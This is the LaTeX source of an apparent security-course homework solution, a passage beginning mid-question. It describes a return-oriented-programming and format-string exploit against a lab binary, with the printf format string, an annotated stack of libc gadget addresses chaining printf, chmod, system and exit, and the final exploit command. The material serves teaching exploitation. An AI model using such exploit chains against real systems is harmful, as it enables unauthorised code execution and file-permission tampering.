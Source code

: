 \documentclass[a4paper,11pt]{article}
\newenvironment{solution}%
{\par{\noindent\small\textit{Solution:}}\vspace{-12pt}\begin{framed}}%
{\end{framed}\par}
\begin{document}
\begin{itemize}
  additional inputs that you need? Please specify the exact unix commands that
  you used to do this.
\ifsolution\begin{solution}
The commandline input will be the string which does the buffer overflow, the run-time input will be the name
of the file \texttt{"./somefile.sh"} and an environment variable will retain the format string for printf
\texttt{"\%384x\%n\%64x\%n"}.
\end{solution}\fi
\item Please sketch the stack layout that you used with annotations if
necessary.
\ifsolution\begin{solution}
The only small problem that I had was that I was difficult to jump from a call of \texttt{chmod} to the
next function because is had two parameters. In this case, I also used some instructions which were already
at the end of the \texttt{system} function, which did \texttt{sub \$esp, 0x8; pop ebx; ret;}, so I could
skip a total of 4 words, but I had to add an empty word after the last parameter of \texttt{chmod}, so that
2 parameters + return address + empty word equals 4.
The stack looks like this:
\begin{lstlisting}
0xaaaaaaaa <- empty
0xb7e2eb50 <- exit
0xaaaaaaaa <- empty
0xaaaaaaaa <- address of second mode parameter on the stack
0x080499a5 <- helpstr
0xb7e3b010 <- sub esp, 0x8; pop ebx; ret;
0xb7ed9010 <- chmod
0x080499a5 <- helpstr
0xb7e3b016 <- pop ebx; ret;
0xb7e3afe0 <- system
0xaaaaaaaa <- empty
0xaaaaaaaa <- first_mode_parameter
0x080499a5 <- helpstr
0xb7e3b010 <- sub esp, 0x8; pop ebx; ret;
0xb7ed9010 <- chmod
0xbffff958 <- address of first mode parameter on the stack
0xb7e3b016 <- pop ebx; ret;
0xbffff978 <- address of second mode parameter on the stack
0xb7e3b016 <- pop ebx; ret;
0xbffffec7 <- address of environment variable INPUT1
0xb7e3b016 <- pop ebx; ret;
0xb7e4a270 <- printf
0x41414141
0x41414141
0x41414141
0x41414141
0x41414141
0x41414141
0xbffffb54 <- address of parameter to cpybuf
0xbffff918 <- address of local buffer

\end{lstlisting}

The $esp$ is currently at \texttt{0xbffff910}, so one can verify that the addresses of the chmod
parameters are good.

\end{solution}\fi
\item What is the final exploit string that you used to accomplish this task?
\ifsolution\begin{solution}
The final exploit command is \textsf{./rop '`./geninput 0xb7e4a270 0xb7e3b016 0xbffffec7 0xb7e3b016 0xbffff978 0xb7e3b016 0xbffff958 0xb7ed9010 0xb7e3b010 0x80499a5 0xaaaaaaaa 0xaaaaaaaa 0xb7e3afe0 0xb7e3b016 0x80499a5 0xb7ed9010 0xb7e3b010 0x80499a5 0xaaaaaaaa 0xaaaaaaaa 0xb7e2eb50 0xaaaaaaaa`'} and the results can be seen in Figure~\ref{fig:exploit}.
\end{solution}\fi
\end{itemize}
\end{document}
